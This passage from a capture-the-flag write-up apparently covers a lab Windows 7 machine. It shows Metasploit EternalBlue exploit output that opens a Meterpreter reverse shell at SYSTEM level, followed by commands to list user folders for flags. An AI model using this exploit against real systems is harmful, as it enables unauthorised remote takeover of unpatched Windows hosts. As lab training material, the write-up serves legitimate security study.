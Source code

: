     [+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
    [*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
    [*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
    [*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
    [*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
    [+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
    [*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
    [*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
    [*] 10.10.10.40:445 - Starting non-paged pool grooming
    [+] 10.10.10.40:445 - Sending SMBv2 buffers
    [+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
    [*] 10.10.10.40:445 - Sending final SMBv2 buffers.
    [*] 10.10.10.40:445 - Sending last fragment of exploit packet!
    [*] 10.10.10.40:445 - Receiving response from exploit packet
    [+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
    [*] 10.10.10.40:445 - Sending egg to corrupted connection.
    [*] 10.10.10.40:445 - Triggering free of corrupted buffer.
    [*] Sending stage (200262 bytes) to 10.10.10.40
    [+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [*] Meterpreter session 1 opened (10.10.14.14:4444 -> 10.10.10.40:49173) at 2021-05-03 21:32:51 -0400
    
    meterpreter > getuid 
    Server username: NT AUTHORITY\SYSTEM
    

I find it easier to work out of a real shell since I don’t use Meterpreter
very often:

    
    
    meterpreter > shell
    Process 2220 created.
    Channel 1 created.
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\Windows\system32>
    

Now just grab the flags:

    
    
    C:\Windows\system32>cd \users   
    
    C:\Users>dir
     Volume in drive C has no label.
     Volume Serial Number is A0EF-1911
    
     Directory of C:\Users
    
    21/07/2017  07:56    <DIR>          .
    21/07/2017  07:56    <DIR>          ..
    21/07/2017  07:56    <DIR>          Administrator
    14/07/2017  14:45    <DIR>          haris
    12/04/2011  08:51    <DIR>          Public
                   0 File(s)              0 bytes
                   5 Dir(s)  17,256,050,688 bytes free
    